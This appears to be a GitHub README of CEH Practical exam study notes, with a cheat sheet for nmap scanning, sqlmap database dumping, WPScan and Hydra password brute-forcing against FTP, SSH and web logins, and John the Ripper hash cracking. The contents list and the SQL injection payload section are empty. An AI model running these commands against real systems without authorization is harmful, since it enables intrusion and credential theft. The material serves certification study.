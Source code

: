 I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.

## CEH Practical Contents:
1.
2.
3.
4.
5.
6.
7.
8.
9.
10
11.
12.
14.
15.

## Important Tools and Commands:
1. Nmap:
  
  $nmap -sV -sC -O <IP>
  
  -iL = import txt  -oX = output   --top-ports 1000 = UDP 1000 scan   -sU = UDP scan   -sT = TCP scan 
  
2. SQLmap:
  
  for url= -u    for txtfile= -r
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump

3. WPscan:
  $ wpscan --url http://test.com --enumerate u --enumerate p
  
  $ wpscan --url http://test.com --usernames user.txt --passwords pass.txt
  
  Other Commands: --random-agent, 

4. Hydra:
  
  FTP Bruteforce:
  
  $ hydra -l user -P passlist.txt ftp://IP

  SSH Bruteforce:
  
  $ hydra -l <username> -P <full path to pass> IP -t 4 ssh

  Post Web Form Bruteforce:
  
  for single word= -l, -p
  
  for txt file= -L, -P
  
  $ hydra -l <username> -P <wordlist> IP http-post-form "/loginUrl:username=^USER^&password=^PASS^:F=incorrect" -V

5. John the Ripper
  
  $ john -format=raw-md5 hash.txt
  
  $ john -format=<hashformat> hash.txt
  
6. SSH
  
  SSH connect:
  
  $ ssh <username>@IP
  
7. FTP
  
  FTP Connect
  
  $ ftp IP

## SQL Injection Payloads:


